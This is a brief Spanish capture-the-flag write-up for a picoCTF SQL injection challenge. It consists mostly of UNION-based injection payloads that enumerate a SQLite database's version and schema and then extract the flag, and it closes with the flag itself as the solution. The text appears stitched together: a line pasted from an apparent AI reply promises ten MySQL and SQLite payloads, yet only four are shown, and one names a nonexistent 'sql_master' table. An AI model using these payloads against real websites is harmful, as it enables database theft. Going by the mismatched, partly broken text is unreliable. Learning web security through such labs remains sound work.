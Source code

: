 #### Descripción

¿Puedes encontrar la bandera en este sitio web?

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.

.......Aquí tienes **10 payloads** de inyección SQL para bases de datos **MySQL y SQLite**, organizados según diferentes propósitos:

' union select 1,2,3;
![[Pasted image 20250331122928.png]]
' union select sqlite_version(),2,3;

![[Pasted image 20250331123136.png]]
' union select sql,2,3 from sql_master;

' union select id,flag,3 from more_table;
![[Pasted image 20250331123608.png]]
## Solución 
```
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}
```